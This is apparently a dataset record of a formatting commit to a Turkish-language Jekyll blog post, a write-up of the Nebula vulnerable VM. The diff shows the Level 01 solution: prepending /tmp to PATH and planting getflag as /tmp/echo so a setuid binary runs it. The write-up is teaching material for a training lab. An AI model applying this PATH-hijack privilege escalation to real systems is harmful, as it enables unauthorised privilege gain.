

Before and after one commit to burcudemiralp/burcudemiralp.github.io, a Jekyll site: the page built from _posts/2018-02-23-nebula-writeup.md, in a window 1280 px wide and 900 px high, scrolled down 2184 px. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some web fonts are replaced.

Commit message:
Update 2018-02-23-nebula-writeup.md

```diff
--- a/_posts/2018-02-23-nebula-writeup.md
+++ b/_posts/2018-02-23-nebula-writeup.md
@@ -5,7 +5,7 @@ date: 2018-02-23
 comments: false
 ---
   Nebula, Linux Exploitation üzerine pratik yapma imkanı sunan zafiyetli bir sanal makinadır. Daha ayrıntılı bilgiye
-[ buradan ](https://exploit-exercises.com/nebula/) ulaşabilirsiniz.
+[buradan](https://exploit-exercises.com/nebula/) ulaşabilirsiniz.
 
 ### Level 00
 
@@ -82,18 +82,11 @@ Bazı argümanlarla birlikte programı çalıştırmayı denesekte, bu yolla bir
 > `PATH değişkeni`, sistemin çalıştırılabilir dosyaları bulmak için nerelere bakması gerektiğini tanımlar.
 
 Yani bizde PATH değişkenine yeni bir dizin eklesek,eklediğimiz dizinin PATH değişkeninde ki sırası önemli, ve çalıştırmak istediğimiz dosyayı o dizine echo ismiyle kaydetsek, env komutu ilk bizim echo programımız ile karşılaşacağı için onu çalıştıracaktır.
-
-PATH değişkenine yeni bir dizin ekliyoruz.
 {% raw %}
     level01@nebula:/home/flag01$ PATH=/tmp:$PATH
     level01@nebula:/home/flag01$ echo $PATH
     /tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games
-{% endraw %}
-Çalıştırmak istediğimiz dosyayı /tmp altına echo ismiyle kaydediyoruz.
-{% raw %}
     level01@nebula:/home/flag01$ cp /bin/getflag /tmp/echo
-{% endraw %}
-{% raw %}
     level01@nebula:/home/flag01$ ./flag01
     You have successfully executed getflag on a target account
 {% endraw %}
```
